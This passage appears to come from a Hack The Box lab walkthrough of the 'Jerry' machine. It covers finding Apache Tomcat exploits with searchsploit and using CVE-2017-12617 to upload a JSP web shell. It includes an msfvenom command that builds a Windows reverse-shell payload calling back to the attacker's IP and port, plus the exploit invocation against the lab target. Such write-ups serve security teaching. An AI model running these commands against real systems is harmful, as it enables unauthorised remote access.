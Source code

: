 The version number is exposed both in the `nmap` scan and on the page itself. Let's search Exploit DB:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ searchsploit tomcat 7.0
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat 7.0.4 - 'sort' / 'orderBy' Cross-Site Scripting                                                                                                          | linux/remote/35011.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                           | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                           | jsp/webapps/42966.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We might be able to upload a JSP shell.

## Trying CVE-2017-12617 Exploit

Looking at the exploit with `searchsploit -x jsp/webapps/42966.py`, it seems to reference CVE-2017-12617, which it uses to upload a webshell:

![](/assets/images/blogs/Pasted image 20210504124851.png)

The code seems to generate a JSP payload and upload it directly to the box, using the following two methods:

![](/assets/images/blogs/Pasted image 20210504124931.png)

### Running the Exploit

I initially thought that we had to generate our own shellcode in JSP to point back to our box, and that the exploit just uploads the file. However, it turns out the program actually generates a shell. The `pwn` parameter seems to be just a filename.

Nevertheless, I will quickly go over what I did to generate a `.jsp` shell payload:
- I ran some quick [OS Enumeration](#enumerating-os) to check the operating system, as i wasn't sure at this point (we can cheat and look at the box info on htb, but that's no fun)
- Created a payload with `msfvenom --f jsp -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -o shell.jsp`
- Started a [netcat](#netcat) listener and tried running the exploit with `python2 42966.py -u http://10.10.10.95:8080 -p shell.jsp`
